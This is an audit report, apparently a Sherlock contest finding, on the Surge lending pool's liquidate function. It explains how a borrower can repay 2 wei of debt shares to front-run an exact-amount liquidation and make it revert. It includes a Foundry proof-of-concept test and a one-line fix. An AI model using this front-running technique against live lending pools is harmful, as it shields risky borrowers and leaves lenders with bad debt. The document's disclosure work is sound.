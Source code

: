 rvi

medium

# users can avoid getting liquidated if the liquidator sends the exact amount of debt

## Summary
users can avoid getting liquidated if the liquidator sends the exact amount of debt  

## Vulnerability Detail
the `liquidate` function takes the exact amount of liquidation the borrower can front-run liquidate calls and pays a small amount of debt and the liquidate call will revert due to under/over, flow of `debtSharesBalanceOf`

also, a front-run attack test that you can add to `Pool.t.sol`
```solidity
function testAttack2() public {
        address borrower = address(0xDD);

        uint amount = 1e18;
        uint borrowAmount = amount / 2;
        MockERC20 collateralToken = new MockERC20(amount, 18);
        MockERC20 loanToken = new MockERC20(amount * 3, 18);
        Pool pool = factory.deploySurgePool(IERC20(address(collateralToken)), IERC20(address(loanToken)), 1e18, 0.5e18, 1e15, 1e15, 0.1e18, 0.4e18, 0.6e18);
        loanToken.approve(address(pool), type(uint).max);
        pool.deposit(amount);
        collateralToken.transfer(borrower, borrowAmount+100);

        vm.startPrank(borrower);
        { // BORROWER TXS // one year ago...
            collateralToken.approve(address(pool), type(uint).max);
            loanToken.approve(address(pool), type(uint).max);
            pool.addCollateral(borrower, borrowAmount);
            pool.borrow(borrowAmount);
            vm.warp(block.timestamp + 365 days);
            pool.withdraw(0);
        }
        vm.stopPrank();

        uint debtAmount = pool.lastTotalDebt();

        emit log_named_uint("debt", pool.debtSharesBalanceOf(borrower));
        vm.startPrank(borrower);
        { // BORROWER TXS => front-running tx 0
            pool.repay(borrower, 2); // 1wei of shares 
        }
        vm.stopPrank();
        emit log_named_uint("debt", pool.debtSharesBalanceOf(borrower));


        vm.expectRevert();
        // original liquidation transaction :: TX 0 
        pool.liquidate(borrower, debtAmount); // REVERTS

    }
```

as you can see it will revert with only repaying `2 wei` of shares

## Impact
a borrower can revert his/her liquidation calls 

## Code Snippet
https://github.com/sherlock-audit/2023-02-surge/blob/main/surge-protocol-v1/src/Pool.sol#L553-L609
## Tool used

Manual Review, forge

## Recommendation
solving this problem is possible by changing this condition on line `Pool.sol#L580`
```solidity
-        if(_amount == type(uint).max || _amount == userDebt) {
+        if(_amount == type(uint).max || _amount >= userDebt) {
```